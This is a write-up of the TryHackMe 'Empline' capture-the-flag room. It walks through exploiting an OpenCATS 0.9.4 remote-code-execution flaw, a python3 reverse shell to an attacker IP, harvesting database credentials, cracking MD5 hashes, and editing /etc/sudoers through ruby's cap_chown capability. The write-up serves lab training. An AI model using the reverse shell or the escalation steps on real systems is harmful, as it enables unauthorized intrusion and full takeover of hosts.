




# Empline

## Description

Are you good enough to apply for this job?

Deploy and compromise the machine!

Get all the flags to complete the room.

Room link: https://tryhackme.com/room/empline

**Note:** All the passwords, hashes, and flags are redacted to encourage you to do this challenge yourself! <3

## Initial Scan

As always, Let's start with a full port Nmap scan. The scan reveals three open ports:

* 22 ssh
* 80 http
* 3306 mysql

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Empline
|_http-server-header: Apache/2.4.29 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 85
|   Capabilities flags: 63487
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, FoundRows, Speaks41ProtocolNew, SupportsCompression, Support41Auth, Speaks41ProtocolOld, SupportsTransactions, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, LongPassword, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: zcdJ&|cYu_^;I<3+}Tj<
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web Service (port 80)

Let's start with the web service on port 80, since we can't get initial access neither to mysql nor to ssh.

After browsing the webpage, we can't get much at the first glance, but if we look closely, we can see a link to a subdomain, when we hover on "EMPLYMENT" from the top bar menu:

Let's add the domain name and the subdomain to our `/etc/hosts`:

~~~
10.10.85.162    empline.thm
10.10.85.162    job.empline.thm
~~~

Let's head to `job.empline.thm` and see what we can find there.

### job.empline.thm

After browsing this subdomain, we face a login page:

Here we can obtain some useful info. Now we know that "OpenCATS" is running on this subdomain, which is a free and open-source ATS. We can also see the version being used:

I used `searchsploit` to see if there is any exploits for `OpenCats 0.9.4` and found an RCE one:

~~~
└─$ searchsploit OpenCats 0.9.4
--------------------------------------------------------------- -----------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- -----------------------
OpenCATS 0.9.4 - Remote Code Execution (RCE)                   | php/webapps/50585.sh
OpenCats 0.9.4-2 - 'docx ' XML External Entity Injection (XXE) | php/webapps/50316.py
--------------------------------------------------------------- -----------------------
Shellcodes: No Results
~~~

### Exploit to RCE

The exploit is a bash script with the EDB-ID of `50585` which you can get [here](https://www.exploit-db.com/exploits/50585). The exploit takes a URL and does the job for us (I use the `rlwrap` to be able to edit my commands easier):

~~~
└─$ rlwrap ./exploit.sh http://job.empline.thm/
 _._     _,-'""`-._ 
(,-.`._,'(       |\`-/|        RevCAT - OpenCAT RCE
    `-.-' \ )-`( , o o)         Nicholas  Ferreira
          `-    \`_`"'-   https://github.com/Nickguitar-e 

[*] Attacking target http://job.empline.thm/
[*] Checking CATS version...
-e [*] Version detected: 0.9.4
[*] Creating temp file with payload...
[*] Checking active jobs...
./exploit.sh: 105: [[: not found
-e [+] Jobs found! Using job id 1
[*] Sending payload...
-e [+] Payload KEq2y.php uploaded!
[*] Deleting created temp file...
[*] Checking shell...
-e [+] Got shell! :D
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux empline 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
-e 
$ pwd
/var/www/opencats/upload/careerportaladd
~~~

Now we can execute commands on the server.

## Reverse Shell

Now that we can execute commands, we can get a reverse shell. You can use a reverse shell payload like I did, or you can upload a reverse shell and execute it using the RCE.

`python3` is installed on the target machine, so I used a python reverse shell. Just change the IP in the payload down below and use it:

~~~
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
~~~

I started a listener (`rlwrap nc -lvnp 4444`) and executed the payload above using the RCE and got a shell on my listener as `www-data` and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.85.162] 43842
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@empline:/var/www/opencats/upload/careerportaladd$
~~~

## www-data -> george

First I checked the users on the machine and there are two and we should probably switch to user `george`:

~~~
www-data@empline:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
george:x:1002:1002::/home/george:/bin/bash
~~~

### Database Creds

After some enumeration, I found the credentials for the database running on port 3306:

~~~
www-data@empline:/$ ss -antlp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                  0.0.0.0:3306             0.0.0.0:*   <------ 
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:* 
~~~

If you head to `/var/www/opencats`, you can find a file called `config.php`. By looking through this file, you can find the creds for the database:

~~~
www-data@empline:/var/www/opencats$ grep DATABASE config.php
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'n[REDACTED]w');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
~~~

### Finding george's Password

Now we have credentials for the database, so let's connect to it and see what we can find there. Thankfully `mysql` is installed on the machine:

~~~
www-data@empline:/var/www/opencats$ mysql -u james -h localhost -p opencats
Enter password: n[REDACTED]w

[SNIP]

MariaDB [opencats]>
~~~

Let's list the databases first:

~~~
MariaDB [opencats]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)
~~~

`opencats` database is already in use, so let's check its tables:

~~~
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
|                                      |
| [SNIP]                               |
|                                      |
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
54 rows in set (0.00 sec)
~~~

This database contains many tables, but `user` table has what we need. By using the following query, we can see the content of this table:

~~~
MariaDB [opencats]> select * from user;
~~~

The output is messy, but we can find two MD5 password hashes from the content:

~~~
george:86d0dfda99d[REDACTED]407947356ac
james:e53fbdb3189[REDACTED]b0e27c473c9
~~~

Before I attempt to crack the hashes myself, I headed to [crackstation](https://crackstation.net/) and fortunately the `george`'s password hash was cracked:

Now I have `george`'s password: `pre[REDACTED]pre`. I used the password and switched to this user:

~~~
www-data@empline:/var/www/opencats$ su george
Password: pre[REDACTED]pre
george@empline:/var/www/opencats$ id
uid=1002(george) gid=1002(george) groups=1002(george)
~~~

Now that the password is valid, we can connect to the target machine via ssh to get a stable shell:

~~~
└─$ ssh george@$IP             

[SNIP]

george@empline:~$ id
uid=1002(george) gid=1002(george) groups=1002(george)
~~~

## User Flag

Now we can go ahead and read the user flag in `george`'s home directory:

~~~
george@empline:~$ ls -la
total 20
drwxrwx--- 4 george george 4096 Feb 26 14:47 .
drwxr-xr-x 4 root   root   4096 Jul 20  2021 ..
drwx------ 2 george george 4096 Feb 26 14:47 .cache
drwx------ 3 george george 4096 Feb 26 14:47 .gnupg
-rw-r--r-- 1 root   root     33 Jul 20  2021 user.txt
george@empline:~$ cat user.txt 
91cb89c[REDACTED]b099078e
~~~

User flag: `91cb89c[REDACTED]b099078e`

## privilege escalation

Now it's time to escalate to root. The first thing I checked was the sudo permissions and we have none:

~~~
george@empline:~$ sudo -l
[sudo] password for george: 
Sorry, user george may not run sudo on empline.
~~~

After some enumeration, I found a useful capability for `ruby`:

~~~
george@empline:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
~~~

As you can see, `cap_chown` is set for `ruby`, which can be used to make arbitrary changes to file UIDs and GIDs. In simple words, we can run `chown` command which is used to change files ownerships and groups.

After a little bit of research, I found this [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) blog, which had a command for `ruby` that used this capability to change the ownership and group of a directory or a file:

~~~
ruby -e 'require "fileutils"; FileUtils.chown(<USER ID>, <GROUP ID> , "<PATH>")'
~~~

### Just reading the root flag

Now we have two ways. First one is to change the ownership of the `/root/` directory and read the root flag. We just need the user id of `george` that we can get by running `id` and by running the following command, we can change the ownership:

~~~
george@empline:~$ id
uid=1002(george) gid=1002(george) groups=1002(george)
george@empline:~$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/root/")'
~~~

**Note:** You can also put `george` for both user id and group id.

After doing so, you can go ahead and read the root flag in `/root`. BUT I want to switch to root and gain full access to the machine.

### Going root

Now there are several ways to switch to root with this capability, but I'm gonna write down what I originally did, which in a real senario is a bit difficulter to detect.

There is a file in linux called `/etc/sudoers` which is the config file for the `sudo` command. As you can remember, our user has no sudo permissions, but if we can modify this file, we can give our user, full sudo permission.

This file originally is not writable and is owned by root, so here's what we do. First we change the ownership of this file to `george` and then change this file's permisisons to be writable. 

The commands to do so are as follows:

~~~
$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/etc/sudoers")'
$ chmod 666 /etc/sudoers
~~~

Let's run these commands and see the result:

~~~
george@empline:~$ ls -al /etc/sudoers
-r--r----- 1 root root 755 Jan 18  2018 /etc/sudoers
george@empline:~$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/etc/sudoers")'
george@empline:~$ chmod 666 /etc/sudoers
george@empline:~$ ls -l /etc/sudoers
-rw-rw-rw- 1 george george 755 Jan 18  2018 /etc/sudoers
~~~

As you can see, this file is now owned by user `george` and is writable. Now we can use `vim` or `nano` to modify this file. You should add the following line to where I have shown in the screenshot:

~~~
george  ALL=(ALL:ALL) ALL
~~~

After we save the changes, we need to change everything back to normal. So make sure that your changes are saved. Now we should change the permissions and the ownership of this file back to normal which can be done by running the following commands:

~~~
$ chmod 440 /etc/sudoers
$ ruby -e 'require "fileutils"; FileUtils.chown(0, 0 , "/etc/sudoers")'
~~~

Let's run these commands and make sure that they worked:

~~~
george@empline:~$ chmod 440 /etc/sudoers
george@empline:~$ ruby -e 'require "fileutils"; FileUtils.chown(0, 0 , "/etc/sudoers")'
george@empline:~$ ls -l /etc/sudoers
-r--r----- 1 root root 781 Feb 26 15:25 /etc/sudoers
~~~

Nice! Let's check our sudo permissions as user `george`:

~~~
george@empline:~$ sudo -l
[sudo] password for george: 
Matching Defaults entries for george on empline:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User george may run the following commands on empline:
    (ALL : ALL) ALL
~~~

Great! Now we can easily switch to root by runnding `sudo su`:

~~~
george@empline:~$ sudo su
root@empline:/home/george# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root Flag

Now we can go ahead and read the root flag in `/root` as `root`:

~~~
root@empline:/home/george# cd
root@empline:~# ls
root.txt
root@empline:~# cat root.txt 
74fea7c[REDACTED]68f5d5
~~~

Root flag: `74fea7c[REDACTED]68f5d5`

## D0N3! ; )

Thanks a lot to the creator(s) of this fun room!

Hope you had fun and learned something!

Have a g00d 0ne! : )
